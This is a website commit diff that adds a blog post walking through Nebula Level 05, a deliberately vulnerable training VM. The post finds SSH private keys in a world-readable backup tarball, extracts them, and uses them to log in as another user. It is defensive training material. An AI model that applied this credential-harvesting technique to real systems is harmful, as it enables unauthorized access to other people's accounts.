

Before and after one commit to mythicalbits/mythicalbits.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page at 90% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 970 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
adds nebula 05 blog

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -6,3 +6,5 @@
   input: GFM
 
 highlighter: rouge
+
+exclude: [Makefile]
--- /dev/null
+++ b/_posts/2020-05-04-nebula-05.md
@@ -0,0 +1,126 @@
+---
+layout: post
+title: "Nebula Series - Level 05"
+---
+
+*Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
+in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
+system race conditions.*
+
+**Level 05** reminds us to lock down our backups
+
+<!--more-->
+
+Ok, so the first thing to understand is that you need to secure your backups. The instructions for this level suggest we keep an eye out for weak permissions. Easy enough, let's
+take a look at the target user's home directory
+
+```bash
+level05@nebula:~$ ls -l
+total 0
+```
+
+At first glance it doesn't seem like there's anything there but if we include the `-a` flag to list
+hidden files (aka dotfiles) we see some interesting directories:
+
+```bash
+level05@nebula:~$ ls -la
+total 9
+drwxr-x--- 1 flag05 level05   80 2020-04-27 20:02 .
+drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
+drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
+-rw------- 1 flag05 flag05    23 2020-04-27 20:02 .bash_history
+-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
+-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
+drwx------ 2 flag05 flag05    60 2020-04-27 20:02 .cache
+-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
+drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
+```
+
+That `.backup` looks promising -- it's readable by anyone -- let's see what was backed up.
+
+```bash
+level05@nebula:~$ ls -la /home/flag05/.backup/
+total 2
+drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
+drwxr-x--- 1 flag05 level05   80 2020-04-27 20:02 ..
+-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
+```
+
+A tarball... whats it hold? We can use `tar` with `-t` to list the files in an archive and `-f` to
+specify which archive
+
+```bash
+level05@nebula:~$ tar -tf /home/flag05/.backup/backup-19072011.tgz
+.ssh/
+.ssh/id_rsa.pub
+.ssh/id_rsa
+.ssh/authorized_keys
+```
+
+There they are! The keys to the castle! Let's extract them to a new `/flag05keys` directory in our
+home. Here, `-x` indicates we want to extract the files, `-v` enables verbose output, `-f`
+again identifies the archive we're working with, and `-C` allows us to specify where the extracted
+files should go. tar won't create the directory for us though so we run `mkdir ~/flag05keys` first.
+
+```bash
+level05@nebula:~$ mkdir ~/flag05keys && tar -xvf /home/flag05/.backup/backup-19072011.tgz -C ~/flag05keys
+.ssh/
+.ssh/id_rsa.pub
+.ssh/id_rsa
+.ssh/authorized_keys
+```
+
+Let's check that the public key is the same as the one in `.ssh/authorized_keys`
+
+```bash
+level05@nebula:~$ diff ~/flag05keys/.ssh/authorized_keys ~/flag05keys/.ssh/id_rsa.pub
+```
+
+No output indicates these files are identical. That means, if this "backup" is an accurate
+representation of our target's `.ssh`, we can connect as flag05 over `ssh` by providing this private
+key with `-i`
+
+```bash
+level05@nebula:~$ ssh -i ~/flag05keys/.ssh/id_rsa flag05@localhost
+
+The authenticity of host localhost (127.0.0.1) cant be established.
+ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
+Are you sure you want to continue connecting (yes/no)? yes
+Warning: Permanently added localhost (ECDSA) to the list of known hosts.
+
+      _   __     __          __
+     / | / /__  / /_  __  __/ /___ _
+    /  |/ / _ \/ __ \/ / / / / __ `/
+   / /|  /  __/ /_/ / /_/ / / /_/ /
+  /_/ |_/\___/_.___/\__,_/_/\__,_/
+
+    exploit-exercises.com/nebula
+
+
+For level descriptions, please see the above URL.
+
+To log in, use the username of "levelXX" and password "levelXX", where
+XX is the level number.
+
+Currently there are 20 levels (00 - 19).
+
+
+Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)
+
+ * Documentation:  https://help.ubuntu.com/
+New release '12.04 LTS' available.
+Run 'do-release-upgrade' to upgrade to it.
+
+flag05@nebula:~$
+```
+
+It worked! Now that we're user `flag05`, we can run `getflag` and move on.
+
+```bash
+flag05@nebula:~$ getflag
+You have successfully executed getflag on a target account
+```
+
+In Summary:
+
+- Security is about the weakest link -- protect your backups
````
Also changed, not shown: 7 other files.
